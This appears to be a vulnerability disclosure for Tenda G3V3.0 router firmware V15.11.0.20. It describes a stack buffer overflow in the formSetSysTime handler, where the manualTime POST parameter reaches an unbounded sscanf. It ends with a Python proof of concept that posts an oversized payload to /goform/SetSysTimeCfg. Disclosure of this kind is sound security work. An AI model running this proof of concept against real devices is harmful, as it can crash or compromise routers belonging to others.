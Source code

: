 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-3369.html

## Affected version

G3V3.0 V15.11.0.20

## Vulnerability details

The Tenda G3V3.0 V15.11.0.20 firmware has a stack overflow vulnerability in the `formSetSysTime` function. The `mode` variable receives the `sysTimePolicy` parameter from a POST request and we let `mode=="manual"` to execute  code in `else if`. 

![image-20240417093027306](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417093027306.png)

The `manual_time` variable receives the `manualTime` parameter from a POST request. However, since the user can control the input of `manualTime`, the statement `sscanf((const char *)manual_time, "%[^-]-%[^-]-%[^ ] %[^:]:%[^:]:%s", year, month, day, hour, min, sec);` can cause a buffer overflow. The user-provided  `time` can exceed the capacity of the `year, month, day, hour, min, sec` array, triggering this security vulnerability.

![image-20240417092952972](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240417092952972.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetSysTimeCfg"
payload = b"a"*2000

data = {
        'sysTimePolicy':'manual',
        'manualTime':payload,
    }
response = requests.post(url, data=data)
print(response.text)![image-20240416114043980](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240416114043980.png)
```
